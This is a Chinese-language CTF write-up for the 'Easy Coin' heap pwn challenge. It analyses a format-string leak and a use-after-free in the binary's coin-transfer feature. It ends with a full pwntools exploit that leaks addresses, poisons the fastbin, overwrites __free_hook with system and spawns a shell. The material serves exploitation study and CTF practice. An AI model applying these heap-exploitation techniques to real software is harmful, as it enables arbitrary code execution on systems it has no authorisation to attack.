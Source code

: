 ```yaml
---
title: 'Easy Coin:UAF'
date: 2018-09-21 21:48:08
tags: pwn heap
layout: post
---
```

Easy Coin 网鼎杯

<!--more-->
## 0x00 Analysis
```arm
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
没有开PIE 开partial RElro

程序主要有两个菜单:
![](/18-9-21-1.jpg)
和几个结构体:
![](/18-9-21-2.jpg)
第一层菜单主要是注册，登录，退出
看了一遍感觉没啥大问题
然后再去逆第二层...感觉自己逆向功底太差...逆了半天
```arm
switch ( buf )
      {
        case '1':
          display(ptr);
          break;
        case '2':
          send_coin(ptr);
          break;
        case '3':
          transaction(ptr);
          break;
        case '4':
          chpass(ptr);
          break;
        case '5':
          del(ptr);                             // uaf
          inuse = 0;
          break;
        case '6':
          inuse = 0;
          break;
        default:
          printf("[-] Unknown Command: ", &buf);
          printf(&buf);                         // fmtstr
          break;
      }
```
主要功能如上
最后偷偷藏了个4bytes的fmtstr
经过测试发现可以泄露stack(off=1),heap(0ff=9),libc(off=3)
然后分析了一圈除了在delet的时候感觉有些不妥:heap内数据未清0其他感觉还是没啥明显的问题的。
于是就做不出来了...看了P4nda师傅的wp才做出来的...
# 0x01 漏洞挖掘
漏洞点在于 option的free过程中，如果自己对自己转账，
那么自己的option里面有两个id相同的option删除的时候会产生doublefree或者删除可以算计目标的chunk.
----这样看看理解起来比较麻烦，最好动手调一下主要是后24位是0x100的chunk...
# 0x02 漏洞利用
创建两个用户-->
登录一个-->
通过fmtstr泄露地址--->
先正常交易一次--->(为了之后可以刚好b被free的地址会是用户二的passwd)
删除当前用户--->
创建并登录--->
正常交易，然后给自己转钱--->
删除用户---> 此时能free最后24位为0x100的地址--->
又因为可以通过修改密码操作修改0x100的内容造成了fastbin的fd的污染可以得到某fakechunk(size=30)的写权限

后面可以写一个用户的passwd指针指向freehook然后改成system...


我的脑子想起这个来比较麻烦....需要一步一步调试
# 0x03 EXP

```python
from pwn import *
def cmd(c):
	p.sendlineafter("> ",str(c))
def reg(name,passwd):
	cmd(1)
	p.sendlineafter("> ",name)
	p.sendlineafter("> ",passwd)
	p.sendlineafter("> ",passwd)
def login(name,passwd):
	cmd(2)
	p.sendlineafter("me\n> ",name)
	p.sendlineafter("> ",passwd)
def fmt(n):
	p.sendafter("> ","%{}$n".format(str(n)))
def sendcoin(name,count):
	cmd(2)
	p.sendlineafter("> ",name)
	p.sendlineafter("> ",str(count))
def remove():
	cmd(5)
def cp(pwd):
	cmd(4)
	p.sendlineafter("> ",pwd)
context.log_level="debug"
passwd="\0"*0x10+"\x02"+7*"\0"
atoi_got=0x603088

libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
p=process("./EasyCoin")
reg("A","A")
reg("/bin/sh",passwd)
login("A","A")
#####################################################################################################
cmd("%p")
p.readuntil("Command: ")
data=p.readline()
stack=int(data[:-1],16)-(0x7fffffffb4e0-0x7ffffffde000)
p.sendafter("> ","%3$p")
p.readuntil("Command: ")
data=p.read(14)
base=int(data,16)-(0x7ffff7b042c0-0x7ffff7a0d000)

p.sendafter("> ","%9$p")
p.readuntil("Command: ")
data=p.read(8)
heap=int(data,16)-(0x10)
log.warning(hex(stack))
log.success(hex(base))
log.info(hex(heap))
#leak over#
sendcoin("/bin/sh",0xdead)
remove()
reg("nier","A")
login("nier","A")
sendcoin("/bin/sh",heap+0x100)
sendcoin("nier",0xdad)
remove()
#start uaf #
libc.address=base
login("/bin/sh",p64(heap+0x30))
sendcoin("/bin/sh",1)
cp(p64(heap+0xa0-0x10))
cmd(6)
payload=p64(heap+0xd0)+p64(libc.symbols['__free_hook'])
cmd(1)
p.sendlineafter("> ","C")
p.sendafter("> ",payload)
p.sendafter("> ",payload)
#gdb.attach(p,'''b *0x4014bb''')
login("/bin/sh","")
cp(p64(libc.symbols['system']))
remove()
p.interactive()
```

# Review 
遇到UAF先去想办法利用脏数据而不是先去套fastbinatk或者unsortedbinatk...熟悉题目中的数据结构和功能的流程